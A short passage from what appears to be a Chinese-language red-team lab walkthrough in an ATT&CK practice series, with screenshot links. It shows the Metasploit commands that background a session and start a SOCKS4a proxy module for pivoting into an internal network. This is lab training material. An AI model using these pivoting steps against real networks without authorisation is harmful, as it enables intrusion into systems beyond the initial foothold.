 ![image-20231117162817587](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117162817587.png)

暂时把会话挂起来`background`

```
use auxiliary/server/socks_proxy    //使用socks代理

set SRVHOST 10.9.75.3        //MSF本机的IP地址

set VERSION 4a                      //设置socks代理的版本

exploit            //开始代理
```

![image-20231117163312002](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117163312002.png)

